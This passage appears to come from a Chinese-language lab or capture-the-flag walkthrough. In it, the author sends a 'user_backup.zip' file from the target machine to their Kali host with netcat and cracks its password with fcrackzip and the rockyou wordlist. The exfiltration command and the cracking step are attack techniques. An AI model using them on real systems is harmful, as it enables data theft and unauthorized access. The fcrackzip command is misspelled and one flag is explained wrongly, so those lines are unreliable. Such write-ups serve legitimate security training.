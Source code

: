 



切换到目录发现有一个`user`开头的，很可以，进行下载

![](./pic-1/18.jpg)



尝试解压，发现需要密码，测试发现靶机有`nc`可用，直接通过`nc`下载

![](./pic-1/19.jpg)

```shell
在靶机上，通过nc把zip包发送给kali地址的7777端口
nc 192.168.1.16 7777 < user_backup.zip
在kali上开启，通过监听7777端口，并把传递信息保存在user_backup.zip
nc -lv -p 7777 > user_backup.zip
```

使用`fcrackzip`进行破解

```shell
fcarckzip -u -D -p /usr/share/wordlists/rockyou.txt user_backup.zip
-u 暴力破解
-D 字典模式
-p 指定字典
```

![](./pic-1/20.jpg)
